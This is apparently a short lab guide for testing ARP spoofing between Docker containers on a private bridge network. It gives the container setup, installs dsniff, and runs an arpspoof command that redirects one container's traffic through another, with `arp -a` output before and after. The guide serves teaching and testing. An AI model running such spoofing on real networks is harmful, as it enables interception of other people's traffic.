 # How to test the arp spoofing attack

1. Create a custom network in Docker: `docker network create -d bridge mynetwork`
2. Start two or more containers and connect them to the custom network: `docker run --network mynetwork --name container1 -it ubuntu`
3. `docker run --network mynetwork --name container2 -it ubuntu`
4. `docker run --network mynetwork --name container3 -it ubuntu`
5. Once the containers are running, you can install the necessary tools like `arp`, `arp-scan`, `arp-spoof` on each of the container
   1. `apt-get install net-tools arp-scan`
   2. `apt-get install inetutils-ping`
   3. `apt-get update && apt-get install dsniff -y`
      1. only be needed in the spoofing machine ( In this case, it's a `container1` )
6. In the `container1 (172.20.0.2)`, run the command `arpspoof -i eth0 -t 172.20.0.4 172.20.0.3`
7. This will cause the `172.20.0.4` machine to send its ARP requests to `172.20.0.2` machine instead of `172.20.0.3`, so that all the traffic from `172.20.0.4` is sent to `172.20.0.2` instead of `172.20.0.3`
   1. You can get the result of ARP by using `arp -a`
    ```sh
    # When ARP spoofing is running
    $ arp -a
    container2.mynetwork (172.20.0.3) at 02:42:ac:14:00:02 [ether] on eth0
    ? (172.20.0.1) at 02:42:3c:5f:e7:08 [ether] on eth0

    # Correct ARP result
    $ arp -a
    container2.mynetwork (172.20.0.3) at 02:42:ac:14:00:03 [ether] on eth0
    ? (172.20.0.1) at 02:42:3c:5f:e7:08 [ether] on eth0
    ```
